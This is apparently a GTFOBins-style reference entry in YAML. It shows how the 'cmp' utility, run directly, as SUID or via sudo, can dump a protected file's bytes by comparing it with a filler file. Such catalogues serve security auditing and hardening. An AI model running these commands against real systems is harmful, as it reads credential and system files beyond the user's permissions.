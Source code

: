 ```yaml
---
functions:
  file-read:
    - code: |
        LFILE=file-to-read
        TEMP=$(mktemp)
        printf 'A%.0s' {1..999} > $TEMP
        cmp $LFILE $TEMP -b -n 999 -l
  suid:
    - code: |
        LFILE=file-to-read
        TEMP=$(mktemp)
        printf 'a%.0s' {1..999} > $TEMP
        cmp $LFILE $TEMP -b -n 999 -l
  sudo:
    - code: |
        LFILE=file-to-read
        TEMP=$(mktemp)
        printf 'a%.0s' {1..999} > $TEMP
        sudo cmp $LFILE $TEMP -b -n 999 -l
---
```

